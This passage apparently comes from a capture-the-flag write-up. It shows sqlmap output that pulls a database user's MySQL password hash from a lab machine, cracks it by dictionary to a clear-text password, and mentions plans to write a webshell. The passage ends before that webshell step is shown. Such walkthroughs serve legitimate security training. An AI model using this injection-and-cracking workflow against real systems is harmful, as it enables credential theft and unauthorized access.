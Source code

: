     [15:06:00] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    database management system users [1]:
    [*] 'DBadmin'@'localhost'
    
    [15:06:01] [INFO] fetching database users password hashes
    [15:06:02] [INFO] used SQL query returns 1 entry
    do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
    do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q] Y
    [15:06:02] [INFO] using hash method 'mysql_passwd'
    what dictionary do you want to use?
    [1] default dictionary file '/usr/share/sqlmap/txt/wordlist.zip' (press Enter)
    [2] custom dictionary file
    [3] file with list of dictionary files
    > 1
    [15:06:02] [INFO] using default dictionary
    do you want to use common password suffixes? (slow!) [y/N] N
    [15:06:02] [INFO] starting dictionary-based cracking (mysql_passwd)
    [15:06:02] [INFO] starting 3 processes
    [15:06:08] [INFO] cracked password 'imissyou' for user 'DBadmin'
    database management system users password hashes:
    [*] DBadmin [1]:
        password hash: *2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
        clear-text password: imissyou
    
    [15:06:17] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.143'
    
    [*] ending @ 15:06:17 /2019-06-28/
    

I can use that to do the same phpmyadmin attack as shown above. But I can also
use it to write a webshell:

    